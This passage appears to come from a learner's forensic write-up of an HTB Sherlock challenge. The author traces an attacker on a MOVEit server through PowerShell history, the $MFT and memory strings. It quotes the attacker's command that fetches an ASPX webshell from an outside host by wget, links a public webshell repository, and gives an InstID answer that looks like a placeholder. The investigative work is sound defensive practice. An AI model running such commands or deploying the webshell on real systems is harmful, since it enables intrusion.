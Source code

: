 Utilziing this persons writeup they wrote a advanced way of gather the IntID which I tried in my insance and I found ([HTB Sherlock: i-like-to | 0xdf hacks stuff](https://0xdf.gitlab.io/2023/11/17/htb-sherlock-i-like-to.html#instid)). I will continue my own analysis from here. Looking at the results its the log file results. I see what appears to be yser names ranging from anonymous, vcjoaquq, Guest:*******. With the repitive Guest entries and how they are formated they look like they are using randomization in letter as if a program is doing that. Looking at those closer I can see this is the compromised machine and looking at the timestamp this is after the TA got a foothold on the system. This is the InstID of the attacker: 1234

![image](https://github.com/user-attachments/assets/8d7b669e-07b6-491c-9649-25cf0b0459f0)

**Answer:** 1234
### **Question 13**
What command was run by the attacker to retrieve the webshell?

Since this is asking about a command I am going to look at the powershell commands. I will open up my Timeline explorer of them and search for 'wget'. It is encoded and I wasn't able to determine the encoding. I will go back to the $MFT in MFTExplorer and I will see if there are pwoershell logs. Doinga  google search I was able to identify the folder here: .\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

The logs had a command of 'netstat'.... Let me see if I can identify in other accounts PowerShell logs. In the moveitsvc account there is powershell logs: .\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

Found the command the TA ran to pull down the web shell

![image](https://github.com/user-attachments/assets/8e8c30fe-6ad5-40fb-bd88-87178fdd258d)

**Answer:** wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
### **Question 14**
What was the string within the title header of the webshell deployed by the TA?

To help find the title header of the webshell that was deployed I will string the memory. I am not sure the KAPE artifacts will be of use here. I am wondering if in the system memory of what the thing was that deployed the webshell was captured

My initial search I searched for: strings I-like-to-27a787c5.vmem | grep "move.aspx". Which I saw this form name field and made me wonder if I could find the title field by doing a grep on <title>... that did not yield results I expected... let me go back and try searching by that form but I will tell my grep search to show me a few lines after it found a matching string. Here is the command I built out to help me find the title:

![image](https://github.com/user-attachments/assets/08caba26-f0d4-4b69-bfdf-e8bde207e951)

I have the output here and can see this is using a program of some sorts but I was not able to find the title field. I see the encoding and I will put it together.... I found that it links out to a hithub repo: [WebShell-2/Aspx/awen asp.net webshell.aspx at master · SecWiki/WebShell-2 (github.com)](https://github.com/SecWiki/WebShell-2/blob/master/Aspx/awen%20asp.net%20webshell.aspx)

In the repo you can see the name: awen asp.net webshell

![image](https://github.com/user-attachments/assets/e4fa951c-2a00-47b5-bed5-7ab4d549afc3)
